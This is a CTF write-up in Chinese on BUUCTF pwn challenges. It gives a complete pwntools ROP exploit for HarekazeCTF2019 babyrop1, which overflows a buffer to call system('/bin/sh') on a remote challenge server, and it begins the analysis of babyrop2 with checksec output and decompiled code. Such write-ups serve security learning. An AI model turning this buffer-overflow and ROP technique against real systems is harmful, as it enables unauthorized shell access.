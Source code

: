 ```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 28730)
e = ELF('./HarekazeCTF2019_babyrop1')
# ROPgadget --binary ./HarekazeCTF2019_babyrop1 --only "pop|ret"
pop_rdi = 0x400683
system_address = e.symbols['system'] # 0x400490
# ROPgadget --binary ./HarekazeCTF2019_babyrop1 --string "/bin/sh"
bin_sh_address = 0x601048
payload = b'a'*0x10 + b'fuckpwn!'
payload += flat(pop_rdi, bin_sh_address, system_address)
io.sendlineafter(b'What\'s your name? ', payload)
io.interactive()  # cat /home/babyrop flag
```

![](https://paper.tanyaodan.com/BUUCTF/harekazectf2019_babyrop/6.png)

------

### [HarekazeCTF2019]baby_rop2

先`file ./HarekazeCTF2019_babyrop2`查看文件类型，再`checksec --file=./HarekazeCTF2019_babyrop2`检查文件保护情况。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ file ./HarekazeCTF2019_babyrop2
./HarekazeCTF2019_babyrop2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=fab931b976ae2ff40aa1f5d1926518a0a31a8fd7, not stripped

┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ checksec --file=./HarekazeCTF2019_babyrop2
[*] '/home/tyd/ctf/pwn/buuctf/HarekazeCTF2019_babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

用`IDA Pro 64bit`打开附件`HarekazeCTF2019_babyrop2`，按`F5`反汇编源码并查看主函数。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("What's your name? ");
  v5 = read(0, buf, 0x100uLL);
  buf[v5 - 1] = 0;
  printf("Welcome to the Pwn World again, %s!\n", buf);
  return 0;
}
```
